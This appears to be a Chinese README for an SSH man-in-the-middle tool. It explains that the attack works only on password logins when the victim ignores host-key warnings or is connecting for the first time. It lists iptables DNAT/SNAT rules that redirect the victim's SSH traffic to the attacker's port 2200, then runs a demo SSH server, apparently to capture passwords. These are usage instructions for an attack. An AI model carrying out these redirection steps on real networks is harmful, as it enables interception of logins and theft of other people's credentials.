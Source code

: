 ## 场景
A -> We -> B. 我们已经成为了中间人的情况下. A尝试连接B的ssh服务.

## 适用范围
A 必须使用的密码验证登录B, 如果是用的publickey认证的, 就无法使用.
基于密码认证的情况下, A需要有以下某一种前提:
* A忽略掉证书server证书错误,将客户端的know_hosts 中的已保存密钥删除.
* A第一次连接这个ssh server.

## 使用方法
1. 配置iptables, 将A的所有流量转到我们的2200端口(可更改)
2. 将B回执给A的包转发给We的client.

A:192.168.1.3
We:192.168.1.1;192.168.2.2
B:192.168.2.3

**iptables规则如下:**
转发A的流量
`iptables -t nat -I PREROUTING -d 192.168.2.3 -p tcp --dport 22 -j DNAT --to-destination=192.168.1.1:2200`
`iptables -t nat -I POSTROUTING -d 192.168.1.3 -p tcp -j SNAT --to-source=192.168.2.3`
转发B的流量
`iptables -t nat -I PREROUTING -d 192.168.1.3 -p tcp -j DNAT --to-destination=192.168.2.2`
`iptables -t nat -I POSTROUTING -d 192.168.2.3 -p tcp -j SNAT --to-source=192.168.1.3`

3. `python demo_ssh_server.py`